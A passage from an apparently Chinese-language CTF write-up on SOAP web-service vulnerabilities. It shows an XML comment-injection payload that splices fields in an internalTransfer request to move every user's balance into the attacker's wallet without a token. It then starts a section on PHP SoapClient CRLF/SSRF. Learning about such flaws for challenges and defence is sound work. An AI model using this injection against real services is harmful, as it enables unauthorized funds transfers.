 

一目了然，对于余额检查，输入一个钱包id即可

而对于转账交易，需要输入接受者、发送者、发送金额、token四个参数

而我们需要理由的点，也肯定是转账交易了

这样就可以将所有用户的初始余额汇总到我们手上，以此得到flag

但是问题来了，我们缺少交易的token，那么如何不需要token，即可让所有人给我们转账呢？

这里就用到了一些注入

![](https://ws1.sinaimg.cn/large/b6de3d7dly1fz2vm2a7chj21ek0li49y.jpg)

经过插入后，代码成为

```xml
<soapenv:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:urn="urn:Bank">
  <soapenv:Header/>
  <soapenv:Body>
     <urn:internalTransfer soapenv:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/">
        <receiver_wallet_num xsi:type="xsd:decimal">我们自己的id</receiver_wallet_num>
        <sender_wallet_num xsi:type="xsd:decimal">其他人</sender_wallet_num>
        <!--
        </receiver_wallet_num>
        <sender_wallet_num xsi:type="xsd:decimal">sender_wallet_num</sender_wallet_num>
        <amount xsi:type="xsd:float"> 
      -->
        <amount xsi:type="xsd:float">750000</amount>
        <token xsi:type="xsd:string">token</token>
     </urn:internalTransfer>
  </soapenv:Body>
</soapenv:Envelope>
```



通过代码的拼接（有点类似于sql注入，但又不是，也是利用语句的拼接与注释），我们即可控制自己想控制的位置，已到达任意转账的目的

![](https://ws1.sinaimg.cn/large/b6de3d7dly1fz2vq5m5waj20h0074dg3.jpg)

最后访问vip页面即可

![](https://ws1.sinaimg.cn/large/b6de3d7dly1fz2vqk2eqaj20ks07uq3e.jpg)

# 0x03 SOAP漏洞利用之CRLF与SSRF（二）

这就要从php的soap说起了，正如之前所说每种开发语言都有自己的webservice实现框架，php也不例外：

PHP 的 SOAP 扩展可以用来提供和使用 Web Services

这个扩展实现了6个类。其中有三个高级的类： SoapClient、SoapServer 和SoapFault，

和三个低级类，它们是 SoapHeader、SoapParam 和 SoapVar。
